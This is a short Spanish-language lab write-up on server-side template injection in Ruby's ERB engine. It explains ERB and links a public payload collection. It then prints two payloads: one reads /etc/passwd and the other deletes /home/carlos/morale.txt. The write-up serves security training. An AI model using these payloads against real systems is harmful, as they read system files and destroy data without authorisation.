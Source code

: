 

Sabemos que usa erb como motor de plantillas : 

**ERB** (abreviatura de **Embedded Ruby**) es un sistema de plantillas integrado en Ruby que permite combinar código Ruby con texto o HTML. Es muy útil para generar contenido dinámico, como páginas web o archivos de texto, a partir de datos proporcionados en tiempo de ejecución.

### **Características principales de ERB**

1. **Integración de Ruby en texto:**
    
    - Puedes insertar bloques de código Ruby directamente en una plantilla de texto.
    - Esto permite generar contenido dinámico basado en la lógica de tu aplicación.
2. **Uso típico:**
    
    - Muy común en frameworks web como **Ruby on Rails**, donde se utiliza para generar vistas HTML dinámicas.
3. **Extensión de archivos:**
    
    - Las plantillas ERB suelen tener la extensión `.erb` (por ejemplo, `index.html.erb`).

---


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Ruby.md

``` ruby
<%=File.open('/etc/passwd').read%>
```

![[Pasted image 20250118202252.png]]
![[Pasted image 20250118202459.png]]

```ruby
<%=File.delete('/home/carlos/morale.txt').read%>
```